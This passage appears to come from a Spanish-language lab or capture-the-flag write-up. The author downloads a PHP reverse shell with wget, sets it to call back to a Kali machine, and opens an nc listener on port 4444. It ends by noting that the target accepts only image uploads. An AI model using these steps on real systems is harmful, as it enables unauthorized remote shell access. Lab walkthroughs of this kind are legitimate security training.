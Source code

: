 Realizamos la descarga del codigo:

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

![alt text](image-12.png)

Configuro para que cuando se ejecute abra una conexion contra mi maquina kali

![alt text](image-13.png)

Para ello dejo a la escucha mi maquina kali mediante el comando

```bash
nc -nlvp 4444
```

En la maquina objetivo solo nos deja subir archivos de tipo imagen
